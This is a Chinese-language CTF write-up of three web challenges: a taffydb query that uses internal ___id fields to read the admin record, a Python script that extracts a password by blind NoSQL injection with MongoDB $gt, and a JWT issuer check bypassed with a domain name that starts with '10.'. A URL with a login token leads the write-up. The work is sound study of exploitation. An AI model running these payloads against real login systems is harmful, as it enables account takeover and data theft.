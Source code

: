 `https://ctf.squ1rrel.dev/login?token=s1pniGOFTCNbGpXBaH6TOnQHoHPmROX77Hag8pLcUTSXzEHayVkKRN0cUF7B6k%2BoUNGHOQwBeyNHoSmpE%2BqEOi1cVPDDG1fNtFosvy%2FlUdEhw4BNtLfxiifRmcbb`
# web
### web/JSON Store

俩个路由
```js
const db = TAFFY([
    {"username": "admin", "comments": process.env.FLAG},
    {"username": "randomuser", "comments": "This is a test comment"},
]);
```
导入了taffydb这个内存数据库,存入和读取json

| 路由 | 作用 |
| ---- | ---- |
| app.post("/getData", | 获取username,filters,设置 filters["username"]=username ;`const data = db(filters).get();`返回data |
| app.post("/addData",  | 获取username,data,插入data,设置`data["username"] = username;`<br> |
感觉应该在getData下,构造一个filters,读取到admin的commnents,但是由于中间件存在express.json(),强制json解析body,导致taffy原本的查询语法部分不能使用


破案了,在npm install的时候直接提示了一个高危漏洞...
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240505224755.png)

taffydb在查询时如果找到索引,就会忽略其他条件,直接返回索引数据项,然后构造,尝试id遍历即可

```json
{
    "filters": {
        "___id":"T000002R000002",
        "___s":"true"
    },
    "username": "a"
}
```

### web/Goosemon
flag在admin的用户密码里,数据库用的是mongodb

ban掉了关键字regex,防止正则表达式注入

看来需要盲注出admin的密码
```js
    const result = await data.toArray();
    if (result.length > 0) {
      res.status(200).send("Login successful!");
    } else {
      res.status(400).send("Login failed!");
    }
```
https://www.mongodb.com/docs/v6.0/reference/operator/query/gt/
mongodb的操作符,发现有gte(>=),可以盲注

但是盲注过程中有`regex`这个字符串,被filter函数过滤了
```js
const filter = (input) => {
    if (typeof input === 'string') {
        return input.toLowerCase().includes('regex');
    }
  
    if (typeof input === 'object') {
        return JSON.stringify(input).toLowerCase().includes('regex');
    }
}
```


```python
import requests

url="http://34.132.166.199:5249/login"

flag="squ1rrel{7h0ugh7_y0u_c0u1d_rege"

for i in range(1000):
    min=0
    max=127
    mid=(min+max)//2
    while max > min:
        mid = (min+max)//2
        data={
            "username": "admin",
            "password": {
                "$gt":flag+chr(mid)
            }
        }
        print(data)
        result=requests.post(url,json=data)
        if (result.status_code==400):
            max=mid
        else:
            min=mid+1
        mid = (min+max)//2
    flag+=chr(mid-1)
    print(flag)


```

切片,拼接在mongodb查询里也不能用...


---


### web/Key Server
一个jwt校验,公钥可以从url中读取,
```js
    if (!issuer.host.startsWith("10.")) {
        return res.status(401).send("Invalid IP address");
    }
```
https://dnsexit.com/domains/free-second-level-domains/
host是主机名不是ip,可以申请一个免费的二级域名 `10.publicvm.com`

本地通了,远程不行...
# reverse

# pwn

# crypto

# Misc


---
# *相关wp*




2024-05-05   22:39